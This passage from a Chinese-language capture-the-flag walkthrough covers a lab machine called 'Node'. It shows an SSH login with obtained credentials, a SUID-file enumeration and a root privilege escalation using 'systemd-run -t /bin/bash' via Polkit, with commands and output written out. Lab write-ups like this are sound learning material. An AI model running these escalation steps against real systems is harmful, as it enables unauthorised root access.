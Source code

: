 使用获取到的凭证通过 SSH 登录目标主机。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ ssh hungry@192.168.205.223
...
hungry@Node:~$ id
uid=1000(hungry) gid=1000(hungry) groups=1000(hungry)
```

成功获取 `hungry` 用户的 shell 权限。

## 三、权限提升

## 1. 本地信息枚举

在 `hungry` 用户的 shell 中，进行提权向量的枚举。



* **检查 `sudo` 权限：**

  ```bash
  hungry@Node:~$ sudo -l
  Sorry, user hungry may not run sudo on Node.
  ```

  用户 `hungry` 没有任何 `sudo` 权限。

* **查找 SUID 文件：**

  ```bash
  hungry@Node:~$ find / -perm -4000 -type f 2>/dev/null
  /usr/bin/chsh
  /usr/bin/chfn
  /usr/bin/newgrp
  /usr/bin/gpasswd
  /usr/bin/mount
  /usr/bin/su
  /usr/bin/umount
  /usr/bin/pkexec
  /usr/bin/sudo
  /usr/bin/passwd
  ...
  /usr/libexec/polkit-agent-helper-1
  ```

我就不继续写了，我扒拉了很久，实在顶不住了，我去找作者要了点提示，是`/usr/libexec/polkit-agent-helper-1`

## 2. 漏洞利用 (`systemd-run` 提权)

根据提示，尝试使用与 Polkit 交互的 `systemd-run` 命令进行提权。

https://blog.csdn.net/li1136594919/article/details/131488386

```bash
hungry@Node:~$ systemd-run -t /bin/bash
==== AUTHENTICATING FOR org.freedesktop.systemd1.manage-units ===
Authentication is required to manage system services or other units.
Authenticating as: hungry
Password: 
==== AUTHENTICATION COMPLETE ===
Running as unit: run-u7.service
Press ^] three times within 1s to disconnect TTY.
root@Node:/# id
uid=0(root) gid=0(root) groups=0(root)
```
